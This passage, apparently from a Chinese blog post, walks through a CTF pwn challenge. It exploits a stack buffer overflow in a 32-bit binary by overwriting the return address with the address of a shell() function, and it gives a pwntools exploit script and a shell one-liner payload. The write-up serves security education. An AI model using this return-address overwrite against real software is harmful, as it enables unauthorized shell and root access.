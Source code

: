 也就是說，這題希望我們除了把`str[48]`填滿
還要利用Buffer Overflow的方式把`shell()`的address蓋到return上。

再來就是要知道line 1 `shell()`的function address
假如我們通通用"a"進行覆蓋，預期結果將會長這樣：）
![](https://photos.smugmug.com/photos/i-nWpmnNR/0/654a0485/S/i-nWpmnNR-S.png)


既然知道要怎麼蓋return address，剩下的就是寫payload了。


{% codeblock exploit.py lang:python %}
from pwn import *

conn = process('./bof')

# payload分成三個部分: 填滿str[48], 覆蓋old ebp, 拿shell()覆蓋return address
# 要注意由於32位元是little-endian, 所以要用p32()轉成\xeb\x84\x04\x08的格式
payload = 'a'*48 + 'aaaa' + p32(0x080484eb)
print(payload)

conn.sendline(payload)
conn.interactive()
{% endcodeblock %}

這樣就能拿到root權限讀flag，當然如果懶得開檔案寫code，也是有一行流寫法XD
```shell
$ (python -c "print('a'*48 + 'a'*4 + '\xeb\x84\x04\x08')"; cat) | ./bof
```



<br>
Pwn大概就是這麼一回事了~
寫的比預期還要久，而且原本想一篇講個三題，結果第一題介紹太久了(｡･ω･｡)

就醬，希望我還能繼續把題目補完（逃